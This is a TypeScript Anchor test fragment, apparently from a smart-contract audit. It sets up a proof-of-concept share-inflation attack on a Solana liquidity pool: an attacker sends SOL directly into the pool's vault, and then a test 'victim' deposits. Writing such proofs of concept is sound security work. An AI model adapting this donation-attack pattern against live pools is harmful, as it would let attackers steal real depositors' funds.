 ```ts

    console.log("Vault amount after withdrawal: ", afterWithdrawSolBalances.vault);
    console.log(" User amount after withdrawal: ", afterWithdrawSolBalances.user);

    const lpMintBalanceAfter = (await splTokenGetAccount(provider.connection, userLpAccount)).amount;
    console.log(" Attacker LP amount after withdrawal: ", lpMintBalanceAfter);

    //console.log(" User gain: ", afterWithdrawSolBalances.user - );

    const transaction2 = new Transaction().add(
      SystemProgram.transfer({
        fromPubkey: userKeypair.publicKey, // Sender (usually the test wallet)
        toPubkey: solVault,               // Recipient account
        lamports: 1 * LAMPORTS_PER_SOL,                    // Amount to send, in lamports
      })
    );
    await provider.sendAndConfirm(transaction2, [userKeypair]);

    const victimKeypair = Keypair.generate();

    await provider.connection.confirmTransaction(
      await provider.connection.requestAirdrop(
        victimKeypair.publicKey,
        1000 * LAMPORTS_PER_SOL
      ),
      "confirmed"
    );

    // ATA for the LP Mint
    victimLpAccount = await getAssociatedTokenAddress(
      lpMintPubkey,
      victimKeypair.publicKey,
      true,
      TOKEN_PROGRAM_ID,
      ASSOCIATED_TOKEN_PROGRAM_ID
    );

    const victimDepositAmount = new anchor.BN(1 * LAMPORTS_PER_SOL);

    await program.methods
    .depositSol(victimDepositAmount)
    .accounts({
      pool: poolAccount,
      user: victimKeypair.publicKey,
      solVault: solVault,
      lpMint: lpMintPubkey,
      userLpAccount: victimLpAccount,
      systemProgram: SystemProgram.programId,
      tokenProgram: TOKEN_PROGRAM_ID,
      associatedTokenProgram: ASSOCIATED_TOKEN_PROGRAM_ID,
    })
    .preInstructions([
      createAssociatedTokenAccountInstruction(
        victimKeypair.publicKey,
        victimLpAccount,
        victimKeypair.publicKey,
        lpMintPubkey
      )
    ])
    .signers([victimKeypair])
    .rpc();

```